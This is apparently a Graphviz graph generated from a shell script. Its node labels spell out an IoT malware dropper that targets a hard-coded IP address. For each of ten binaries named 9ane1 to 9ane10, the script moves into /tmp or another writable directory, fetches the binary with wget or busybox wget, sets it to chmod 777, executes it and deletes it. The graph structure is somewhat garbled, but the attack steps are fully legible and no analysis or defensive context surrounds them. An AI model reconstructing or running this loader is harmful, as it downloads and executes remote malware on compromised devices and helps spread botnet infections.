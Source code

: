 digraph {
0 [label="ulimit -n 712 "];
0 -> 0
2 [label="IP=163.172.90.235 "];
2 -> 2
4 [label="bin1=9ane1 "];
4 -> 6 [label="N,"];
6 [label="bin2=9ane2 "];
6 -> 6
8 [label="bin3=9ane3 "];
8 -> 8
10 [label="bin4=9ane4 "];
10 -> 10
12 [label="bin5=9ane5 "];
12 -> 12
14 [label="bin6=9ane6 "];
14 -> 14
16 [label="bin7=9ane7 "];
16 -> 16
18 [label="bin8=9ane8 "];
18 -> 18
20 [label="bin9=9ane9 "];
20 -> 20
22 [label="bin10=9ane10 "];
22 -> 22
24 [label="[ -f /bin/busybox ] "];
24 -> 428 [label="SC,N,if,"];
428 [label="cd /tmp "];
428 -> 430 [label=";,then,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 38 [label=";,"];
38 [label="/bin/busybox wget http://$IP/$bin1 "];
38 -> 40 [label=";,"];
40 [label="/bin/busybox cat $bin1 busybox "];
40 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 282 [label=";,"];
282 [label="rm -rf $bin1 "];
282 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 62 [label=";,"];
62 [label="/bin/busybox wget http://$IP/$bin2 "];
62 -> 64 [label=";,"];
64 [label="/bin/busybox cat $bin2 busybox "];
64 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 300 [label=";,"];
300 [label="rm -rf $bin2 "];
300 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 86 [label=";,"];
86 [label="/bin/busybox wget http://$IP/$bin3 "];
86 -> 88 [label=";,"];
88 [label="/bin/busybox cat $bin3 busybox "];
88 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 318 [label=";,"];
318 [label="rm -rf $bin3 "];
318 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 110 [label=";,"];
110 [label="/bin/busybox wget http://$IP/$bin4 "];
110 -> 112 [label=";,"];
112 [label="/bin/busybox cat $bin4 busybox "];
112 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 336 [label=";,"];
336 [label="rm -rf $bin4 "];
336 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 134 [label=";,"];
134 [label="/bin/busybox wget http://$IP/$bin5 "];
134 -> 136 [label=";,"];
136 [label="/bin/busybox cat $bin5 busybox "];
136 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 354 [label=";,"];
354 [label="rm -rf $bin5 "];
354 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 158 [label=";,"];
158 [label="/bin/busybox wget http://$IP/$bin6 "];
158 -> 160 [label=";,"];
160 [label="/bin/busybox cat $bin6 busybox "];
160 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 372 [label=";,"];
372 [label="rm -rf $bin6 "];
372 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 182 [label=";,"];
182 [label="/bin/busybox wget http://$IP/$bin7 "];
182 -> 184 [label=";,"];
184 [label="/bin/busybox cat $bin7 busybox "];
184 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 390 [label=";,"];
390 [label="rm -rf $bin7 "];
390 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 206 [label=";,"];
206 [label="/bin/busybox wget http://$IP/$bin8 "];
206 -> 208 [label=";,"];
208 [label="/bin/busybox cat $bin8 busybox "];
208 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 408 [label=";,"];
408 [label="rm -rf $bin8 "];
408 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 230 [label=";,"];
230 [label="/bin/busybox wget http://$IP/$bin9 "];
230 -> 232 [label=";,"];
232 [label="/bin/busybox cat $bin9 busybox "];
232 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 426 [label=";,"];
426 [label="rm -rf $bin9 "];
426 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 252 [label="||,"];
252 [label="/bin/busybox cp /bin/busybox . "];
252 -> 254 [label=";,"];
254 [label="/bin/busybox wget http://$IP/$bin10 "];
254 -> 256 [label=";,"];
256 [label="/bin/busybox cat $bin10 busybox "];
256 -> 258 [label=";,"];
258 [label="busybox "];
258 -> 258
260 [label="/bin/busybox chmod 777 busybox "];
260 -> 262 [label=";,"];
262 [label="./busybox "];
262 -> 443 [label=";,"];
443 [label="rm -rf $bin10 "];
443 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,else,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 276 [label="||,"];
276 [label="wget http://$IP/$bin1 "];
276 -> 278 [label=";,"];
278 [label="chmod 777 $bin1 "];
278 -> 280 [label=";,"];
280 [label="./$bin1 "];
280 -> 282 [label=";,"];
282 [label="rm -rf $bin1 "];
282 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 294 [label="||,"];
294 [label="wget http://$IP/$bin2 "];
294 -> 296 [label=";,"];
296 [label="chmod 777 $bin2 "];
296 -> 298 [label=";,"];
298 [label="./$bin2 "];
298 -> 300 [label=";,"];
300 [label="rm -rf $bin2 "];
300 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 312 [label="||,"];
312 [label="wget http://$IP/$bin3 "];
312 -> 314 [label=";,"];
314 [label="chmod 777 $bin3 "];
314 -> 316 [label=";,"];
316 [label="./$bin3 "];
316 -> 318 [label=";,"];
318 [label="rm -rf $bin3 "];
318 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 330 [label="||,"];
330 [label="wget http://$IP/$bin4 "];
330 -> 332 [label=";,"];
332 [label="chmod 777 $bin4 "];
332 -> 334 [label=";,"];
334 [label="./$bin4 "];
334 -> 336 [label=";,"];
336 [label="rm -rf $bin4 "];
336 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 348 [label="||,"];
348 [label="wget http://$IP/$bin5 "];
348 -> 350 [label=";,"];
350 [label="chmod 777 $bin5 "];
350 -> 352 [label=";,"];
352 [label="./$bin5 "];
352 -> 354 [label=";,"];
354 [label="rm -rf $bin5 "];
354 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 366 [label="||,"];
366 [label="wget http://$IP/$bin6 "];
366 -> 368 [label=";,"];
368 [label="chmod 777 $bin6 "];
368 -> 370 [label=";,"];
370 [label="./$bin6 "];
370 -> 372 [label=";,"];
372 [label="rm -rf $bin6 "];
372 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 384 [label="||,"];
384 [label="wget http://$IP/$bin7 "];
384 -> 386 [label=";,"];
386 [label="chmod 777 $bin7 "];
386 -> 388 [label=";,"];
388 [label="./$bin7 "];
388 -> 390 [label=";,"];
390 [label="rm -rf $bin7 "];
390 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 402 [label="||,"];
402 [label="wget http://$IP/$bin8 "];
402 -> 404 [label=";,"];
404 [label="chmod 777 $bin8 "];
404 -> 406 [label=";,"];
406 [label="./$bin8 "];
406 -> 408 [label=";,"];
408 [label="rm -rf $bin8 "];
408 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 420 [label="||,"];
420 [label="wget http://$IP/$bin9 "];
420 -> 422 [label=";,"];
422 [label="chmod 777 $bin9 "];
422 -> 424 [label=";,"];
424 [label="./$bin9 "];
424 -> 426 [label=";,"];
426 [label="rm -rf $bin9 "];
426 -> 428 [label=";,"];
428 [label="cd /tmp "];
428 -> 430 [label="\n,"];
430 [label="cd /var/run "];
430 -> 432 [label="||,"];
432 [label="cd /dev/shm "];
432 -> 434 [label="||,"];
434 [label="cd /mnt "];
434 -> 436 [label="||,"];
436 [label="cd /var "];
436 -> 438 [label="||,"];
438 [label="wget http://$IP/$bin10 "];
438 -> 440 [label=";,"];
440 [label="chmod 777 $bin10 "];
440 -> 442 [label=";,"];
442 [label="./$bin10 "];
442 -> 443 [label=";,"];
}
